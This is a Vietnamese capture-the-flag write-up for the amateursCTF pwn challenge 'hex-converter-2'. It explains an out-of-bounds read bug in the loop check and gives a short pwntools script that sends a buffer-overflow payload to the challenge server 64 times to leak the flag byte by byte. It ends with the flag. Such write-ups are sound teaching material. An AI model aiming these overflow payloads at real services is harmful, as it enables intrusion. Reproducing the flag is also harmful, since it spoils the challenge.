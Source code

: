 # HEX-CONVERTER-2

## Overview

![img](/amateursCTF/Pwn/hex-converter-2/assets/overview.png)

- Bài cũng cho chúng ta 3 file, giống như [hex-converter](/amateursCTF/Pwn/hex-converter/README.md).

- Source code bên trong cũng na ná. Chỉ khác là giờ ở trong vòng while có kiểm tra `i < 0`, nhưng đây không phải cách giải quyết tốt :skull:
</br>![img](/amateursCTF/Pwn/hex-converter-2/assets/source.png)

## Idea

- Do trước khi kiểm tra `i < 0` để kết thúc hàm chương trình vẫn in ra kí tự thứ i, nên cách đơn giản nhất là mình cho chạy vòng lặp i chạy từ `0 -> 63` mở kết nối đến server, gửi payload lấy kí tự thứ name[-64 + i] rồi cộng dồn vào biến s nào đó. Sau đó in ra là có flag.

## Script

```python
from pwn import *


addr = 0xffffffc0
main_addr = 0x401186
s = ""

for i in range(64):
    p = remote("amt.rs", 31631)
    p.recvline()
    payload = b"a"*0x1c + p32(addr+i) + b"a"*8 + p64(main_addr)
    p.sendline(payload)
    s += p.recvline().strip().decode()

flag = bytes.fromhex(s)
print(flag.decode("ASCII"))
```

## Result

![img](/amateursCTF/Pwn/hex-converter-2/assets/flag.png)

>### Flag: amateursCTF{an0ther_e4sier_0ne_t0_offset_unvariant_while_l00p}